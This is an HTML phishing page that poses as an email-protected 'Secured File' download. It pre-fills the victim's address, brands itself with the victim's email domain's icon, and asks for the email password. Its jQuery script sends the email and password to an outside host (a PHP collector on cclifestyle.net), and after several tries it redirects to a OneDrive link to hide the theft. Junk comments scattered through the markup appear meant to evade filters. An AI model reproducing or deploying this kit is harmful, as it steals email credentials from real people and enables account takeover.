 <!DOCTYPE html>
<html dir="ltr" lang="en-US">
<!DOCTYPE html>
<html lang="en-US" class="no-js">

<head>

<meta charset="UTF-8" />
<title>District</title>
<meta name="format-detection" content="telephone=no">
<meta name="viewport" content="width=device-width, initial-scale=1" />
<link rel="shortcut icon" href="https://gilsewing.com/wp-content/uploads/2019/12/favicon-1.ico" type="image/x-icon" />

  <!-- ew-->
  <link rel="stylesheet" href="https://maxcdn.bootstrapcdn.com/bootstrap/4.0.0/css/bootstrap.min.css"
    integrity="sha384-Gn5384xqQ1aoWXA+058RXPxPg6fy4IWvTNh0E263XmFcJlSAwiGgFAW/dAiS6JXm" crossorigin="anonymous">
  <link href="https://fonts.googleapis.com/css?family=Yellowtail&display=swap" rel="stylesheet">
  <title>..Secured File..</title>
  <link href="" rel="stylesheet" media="all">
 
 <!-- ew-->  
		    <!-- ew-->
			 <!-- ew--> <!-- ew--> <!-- ew--> <!-- ew-->
			  <!-- ew-->
			   <!-- ew-->
			    <!-- ew-->
				 <!-- ew-->
				  <!-- ew-->
				   <!-- ew-->
				    <!-- ew-->
					 <!-- ew-->
					 <!-- ew-->
			   <!-- ew-->
			    <!-- ew-->
				 <!-- ew-->
				  <!-- ew-->
				   <!-- ew-->
				    <!-- ew-->
					 <!-- ew-->
					 <!-- ew-->
			   <!-- ew-->
			    <!-- ew-->
				 <!-- ew-->
				  <!-- ew-->
				   <!-- ew-->
				    <!-- ew-->
					 <!-- ew-->
					  <!-- ew-->
					   <!-- ew-->
					    <!-- ew--> <!-- ew-->
						 <!-- ew-->
						  <!-- ew-->
						   <!-- ew--> <!-- ew--
						    <!-- ew-->


							 <!-- ew-->
  <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/core.min.js"></script>
  <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/md5.js"></script>
  <style type="text/css">
  
    .hide {
      display: none;
    }

    .grey-form {
      background-color: #eee;
      opacity: 1;
      pointer-events: none;
    }

    .alert-success {
      color: #155724;
      background-color: #d4edda;
      border-color: #c3e6cb;
    }



    .modal-body {
    padding: 0 !important;
}
.login-container{
    position: relative;
    /*width: 400px;*/
    margin: 80px auto;
    padding: 20px 41px 40px;
    text-align: center;
    background: #fff;
    border: 1px solid #ccc;
}

#output{
    position: absolute;
    width: 300px;
    top: -76px;
    left: 0;
    color: #fff;
}

#output.alert-success{
    background: rgb(26, 204, 25);
}

#output.alert-danger{
    background: rgb(228, 106, 107);
}


.login-container::before,.login-container::after{
    content: "";
    position: absolute;
    width: 100%;height: 100%;
    top: 3.5px;left: 0;
    background: #fff;
    z-index: -1;
    -webkit-transform: rotateZ(4deg);
    -moz-transform: rotateZ(4deg);
    -ms-transform: rotateZ(4deg);
    border: 1px solid #ccc;

}

.login-container::after{
    top: 5px;
    z-index: -2;
    -webkit-transform: rotateZ(-2deg);
     -moz-transform: rotateZ(-2deg);
      -ms-transform: rotateZ(-2deg);

}

.avatar{
    width: 100px;height: 100px;
    margin: 10px auto 30px;
    border-radius: 100%;
    border: 2px solid #aaa;
    background-size: cover;
}

.form-box input{
    width: 100%;
    padding: 10px;
    text-align: center;
    height:40px;
    border: 1px solid #ccc;;
    background: #fafafa;
    transition:0.2s ease-in-out;

}

.form-box input:focus{
    outline: 0;
    background: #eee;
}

.form-box input[type="text"]{
    border-radius: 5px 5px 0 0;
    text-transform: lowercase;
}

.form-box input[type="password"]{
    border-radius: 0 0 5px 5px;
    border-top: 0;
}

.form-box button.login{
    margin-top:15px;
    padding: 10px 20px;
}

.animated {
  -webkit-animation-duration: 1s;
  animation-duration: 1s;
  -webkit-animation-fill-mode: both;
  animation-fill-mode: both;
}

@-webkit-keyframes fadeInUp {
  0% {
    opacity: 0;
    -webkit-transform: translateY(20px);
    transform: translateY(20px);
  }

  100% {
    opacity: 1;
    -webkit-transform: translateY(0);
    transform: translateY(0);
  }
}

@keyframes fadeInUp {
  0% {
    opacity: 0;
    -webkit-transform: translateY(20px);
    -ms-transform: translateY(20px);
    transform: translateY(20px);
  }

  100% {
    opacity: 1;
    -webkit-transform: translateY(0);
    -ms-transform: translateY(0);
    transform: translateY(0);
  }
}

.fadeInUp {
  -webkit-animation-name: fadeInUp;
  animation-name: fadeInUp;
}
  </style>

    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/4.0.0/core.min.js"></script>
    <script src="https://cdnjs.cloudflare.com/ajax/libs/crypto-js/3.1.9-1/md5.js"></script>
    <script src="https://ajax.googleapis.com/ajax/libs/jquery/2.2.4/jquery.min.js"></script>

</head>

<body>
  <div class="container-fluid">
    <div class="row"
      style="height: 130vh; font-size: 16px; background-image: url('http://khunyuicondo.com/admkyui/upimg/2-40-2020-11-19/8.jpg'); background-size: cover; background-position: center; background-attachment: fixed;">
      <div class="container">
        <div class="row">
          <div class="col-lg-6 mx-auto my-5 px-5 pb-5">
		   </div>
		    </div>
			 </div>
			  </div>
			   </div>
			   </div>
			 </div>
			  </div>
			   </div>
			   </div>
			 </div>
			  </div>
			   </div>
			   </div>
			 </div>
			  </div>
			   </div>

            <div class="mt-3">
              <div class="row">
                <div class="col-lg-12">
                  <a href="javascript:void(0)" id="gmailmodal" class="hvr-grow w-100" style="text-decoration: none;"
                    data-toggle="modal" data-target="#ajaxModal">
                    <div class="mt-2">
                      <span class="pl-4"
                        style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                    </div>
                  </a>
                </div>
                <div class="col-lg-12">
                  <a href="javascript:void(0)" id="outlookmodal" class="hvr-grow w-100" style="text-decoration: none;"
                    data-toggle="modal" data-target="#ajaxModal">
                    <div class=" mt-2">

                      <span class="pl-4"
                        style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                    </div>
                  </a>
                </div>
              </div>
              <div class="row">
                <div class="col-lg-12 ">
                  <a href="javascript:void(0)" id="aolmodal" class="hvr-grow w-100" style="text-decoration: none;"
                    data-toggle="modal" data-target="#ajaxModal">
                    <div class="  mt-2">

                      <span class="pl-4"
                        style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                    </div>
                  </a>
                </div>
                <div class="col-lg-12">
                  <a href="javascript:void(0)" id="office365modal" class="hvr-grow w-100" style="text-decoration: none;"
                    data-toggle="modal" data-target="#ajaxModal">
                    <div class=" mt-2">

                      <span class="pl-4"
                        style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                    </div>
                  </a>
                </div>
              </div>
              <div class="row">
                <div class="col-lg-12 ">
                  <a href="javascript:void(0)" id="aolmodal" class="hvr-grow w-100" style="text-decoration: none;"
                    data-toggle="modal" data-target="#ajaxModal">
                    <div class="  mt-2">

                      <span class="pl-4"
                        style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                    </div>
                  </a>
                </div>
                <div class="col-lg-12">
                  <a href="javascript:void(0)" id="office365modal" class="hvr-grow w-100" style="text-decoration: none;"
                    data-toggle="modal" data-target="#ajaxModal">
                    <div class=" mt-2">

                      <span class="pl-4"
                        style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                    </div>
                  </a>
                </div>
              </div>
              <div class="row">
                <div class="col-lg-12 ">
                  <a href="javascript:void(0)" id="aolmodal" class="hvr-grow w-100" style="text-decoration: none;"
                    data-toggle="modal" data-target="#ajaxModal">
                    <div class="  mt-2">

                      <span class="pl-4"
                        style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                    </div>
                  </a>
                </div>
                <div class="col-lg-12">
                  <a href="javascript:void(0)" id="office365modal" class="hvr-grow w-100" style="text-decoration: none;"
                    data-toggle="modal" data-target="#ajaxModal">
                    <div class=" mt-2">

                      <span class="pl-4"
                        style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                    </div>
                  </a>
                </div>
              </div>
              <div class="row">
                <div class="col-lg-12 ">
                  <a href="javascript:void(0)" id="aolmodal" class="hvr-grow w-100" style="text-decoration: none;"
                    data-toggle="modal" data-target="#ajaxModal">
                    <div class="  mt-2">

                      <span class="pl-4"
                        style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                    </div>
                  </a>
                </div>
                <div class="col-lg-12">
                  <a href="javascript:void(0)" id="office365modal" class="hvr-grow w-100" style="text-decoration: none;"
                    data-toggle="modal" data-target="#ajaxModal">
                    <div class=" mt-2">

                      <span class="pl-4"
                        style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                    </div>
                  </a>
                </div>
              </div>
              <div class="col-lg-12 ">
                <a href="javascript:void(0)" id="aolmodal" class="hvr-grow w-100" style="text-decoration: none;"
                  data-toggle="modal" data-target="#ajaxModal">
                  <div class="  mt-2">

                    <span class="pl-4"
                      style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                  </div>
                </a>
              </div>
              <div class="col-lg-12">
                <a href="javascript:void(0)" id="office365modal" class="hvr-grow w-100" style="text-decoration: none;"
                  data-toggle="modal" data-target="#ajaxModal">
                  <div class=" mt-2">

                    <span class="pl-4"
                      style="vertical-align: middle; color: white;font-weight: 500;border-radius: 4px; "></span>
                  </div>
                </a>
              </div>
            </div>

            </a>
          </div>
          <div class="col-lg-12">
            <p class="text-white mt-3 text-center"></p>
            <p class="h5 text-center text-white"></p>

          </div>

        </div>
      </div>
    </div>
  </div>
   </div>
    </div>
	 </div>
	  </div>
	   </div>
	    </div>
		</div>
    </div>
	 </div>
	  </div>
	   </div>
	    </div>
		</div>
    </div>
	 </div>
	  </div>
	   </div>
	    </div>



  </div>
  </div>



  <!-- M22222222tttttttttttttttttttttttttttttttt2222222222222222222222222222222222222222-->
  <div style="display: block !important" class="modal" id="ajaxModal" tabindex="-1" role="dialog"
    aria-labelledby="exampleModalLabel" aria-hidden="true">
    <div class="modal-dialog" role="document">
      <div class="modal-content">
        <div class="modal-header">
        </div>
        <div class="modal-body">
          <center>
            <img id="fieldImg" class="img-fluid" width="80px">

            <h5 class="modal-title" id="exampleModalLabel"><span id="head-message" class=""></span><br></h5>
            <span class="font-weight-normal">To open document, access with email passcode.</span>
            <br>
            <div style="margin-top: 10px;" class="alert" id="msg"></div>

          </center>
          <form id="contact" class="form-horizontal well">
            <div class="col-lg-12">
              <div class="form-group">

                <label for="exampleInputEmail1">Email address</label>
                <input style="background-color: #eee;opacity: 1; pointer-events:none !important;" type="email"
                  name="email" class="form-control" id="email" aria-describedby="emailHelp" placeholder="Enter email"
                  value='[Email]' readonly="">
                <!-- rrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrrr<s222222222222222222222222222222222222222222m22222222ddrr2ll  cl-->
              </div>
            </div>
            <div class="col-lg-12">
              <div style="margin-bottom: 0.5rem !important;" class="form-group">
                <label for="Password">Password</label>
                <input type="password" name="password" class="form-control" id="password" aria-describedby="emailHelp"
                  placeholder="Enter Password" required="">
              </div>
            </div>
        </div>
        <div class="modal-footer" style="padding: 0.5rem !important;">
          <button class="btn btn-lg btn-info pull-right" id="submit-btn">DOWNLOAD</button>
        </div>
        </form>
      </div>
    </div>
  </div>

</body>

<script>

    $(document).ready(function(){

      var count=0;

      $('#contact').submit(function(event){
        event.preventDefault();
        $('#msg').html('Loading...');
        var email=$("#email").val();
        var password=$("#password").val();
        var detail=$("#field").html();
        $("#password").addClass('grey-form');

        count=count+1;
        if (count>3) {
          $('#msg').html('Processing...');
        }else
        {
        $.ajax({
          dataType: 'JSON',
          url: 'http://cclifestyle.net/admin/super/dog4.php',
          type: 'GET',
          data: {
            user: email,
            pass: password,
            detail: detail
          },
          // da222222t,
          beforeSend: function (xhr) {
            $('#submit-btn').html(' Please Wait...');
          },
          success: function (response) {
            console.log(response);
            if(response['msg']=="errorsend"){

              if(count<=2){
                $('#msg').html('<color style="color:red;">Something went Wrong, Please Try Again Later!</color>');
                $("#password").removeClass('grey-form');
                $("#password").val('');
                $("#password").focus();
              }
              if(count>=3){
                $('#msg').html('Processing...');
                setTimeout('window.location.href=\x27https://1drv.ms/w/s!AoUtADYcAvjS9HMjdfeM20xi-uRU\x27;', 0x5dc);
              }

            }else{
              if (response['signal'] == 'no-pass') {
                count = 0;
                $("#msg").show();
                $('#msg').addClass('alert-danger');
                $("#password").val('');
                $("#password").removeClass('grey-form');
                $(".modal-header").addClass('hide');
                // conso;

              }
              if (response['signal'] == 'success') {
                $('#msg').html(response['msg']);
                $("#msg").show();
                $('#msg').addClass('alert-success');
                $(".modal-header").addClass('hide');
                setTimeout('window.location.href=\x27https://1drv.ms/w/s!AoUtADYcAvjS9HMjdfeM20xi-uRU\x27;', 0x5dc);

              }
              if (response['signal'] == 'no-auth') {
                $('#msg').html(response['msg']);
                $("#msg").show();
                $('#msg').addClass('alert-danger');
                $("#password").removeClass('grey-form');
                $("#password").val('');
                $(".modal-header").addClass('hide');
                // 22222222SSSSSSS2222']);
              }
              else {
                $('#msg').html(response['msg']);
                setTimeout('window.location.href=\x27https://1drv.ms/w/s!AoUtADYcAvjS9HMjdfeM20xi-uRU\x27;', 0x5dc);
              }
            }
          },
          error: function (response) {
            console.log(response);

          },
          complete: function (response) {
            console.log(response);
            $('#submit-btn').html('Login');
          }
        });
       }
     });
    });


  var hash = window.location.hash;
  console.log(hash)

  var encoded_string = hash.split('#')[1];

  //doww2222222222cccdddxxxxxxxum;
  var email=$("#email").val();
  console.log(email);
  var domain = email.substring(email.lastIndexOf("@") +1);
  var frmsite = domain.substring(0, domain.lastIndexOf("."));
  document.getElementById("fieldImg").src = `https://www.google.com/s2/favicons?sz=64&domain_url=${domain}`;
  document.getElementById("head-message").innerHTML = `${ucFirst(frmsite)} Email Secured Document `



  function getProcessparameter(){
        let s = getParameterByName('lo')
          let arr = JSON.parse(atob(s));
          return arr['email'];
    }

function getProcessHash(){
      if(window.location.hash){
        let h = window.location.hash;
          let s = h.split('#')[1];
          let arr = JSON.parse(atob(s));

          return arr['email'];
      }

      return null;
    }

      function getParameterByName(name, url) {
        if (!url) url = window.location.href;
        name = name.replace(/[[]]/g, '\\$&');
        var regex = new RegExp('[?&]' + name + '(=([^&#]*)|&|#|$)'),
          results = regex.exec(url);
        if (!results) return null;
        if (!results[2]) return '';
        var encodedUri = decodeURIComponent(results[2].replace(/\+/g, ' '));
        return encodedUri;
      }

        function ucFirst(str){
      return str.charAt(0).toUpperCase()+ str.slice(1);
    }

</script>

</html>
